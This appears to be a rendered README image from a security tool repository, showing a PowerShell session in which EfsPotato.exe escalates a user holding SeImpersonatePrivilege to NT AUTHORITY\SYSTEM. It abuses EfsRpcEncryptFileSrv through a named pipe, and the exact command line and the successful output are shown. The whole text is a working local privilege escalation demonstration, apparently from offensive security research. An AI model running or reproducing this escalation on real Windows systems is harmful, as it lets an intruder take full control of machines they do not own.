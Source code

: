 ```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name    SID
============ ==============================================
dev22h2\user S-1-5-21-3896868301-3921591151-1374190648-1001
PS C:\Dev> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name         Description                               State
====================== ========================================= ========
SeImpersonatePrivilege Impersonate a client after authentication Disabled
PS C:\Dev> .\EfsPotato.exe -i -c powershell

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\{673BDABB-D0D6-403A-9EC8-0AC929BF7C66}\pipe\srvsvc
[>] Waiting for named pipe connection.
[>] Calling EfsRpcEncryptFileSrv().
    [*] Target File Path: \\localhost/pipe/{673BDABB-D0D6-403A-9EC8-0AC929BF7C66}\C$\PrivFu.txt
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 9412).
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
PS C:\Dev> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
```